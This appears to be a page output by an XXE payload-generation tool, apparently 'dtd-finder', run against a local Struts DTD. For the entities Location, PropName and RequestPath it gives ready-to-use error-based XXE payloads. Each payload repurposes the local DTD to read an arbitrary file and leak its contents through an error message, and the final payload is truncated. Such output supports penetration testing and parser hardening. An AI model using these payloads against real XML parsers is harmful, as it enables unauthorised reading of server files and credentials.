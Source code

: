 **Injectable entity:** `Location`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % Location 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `PropName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % PropName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `RequestPath`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % RequestPath '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```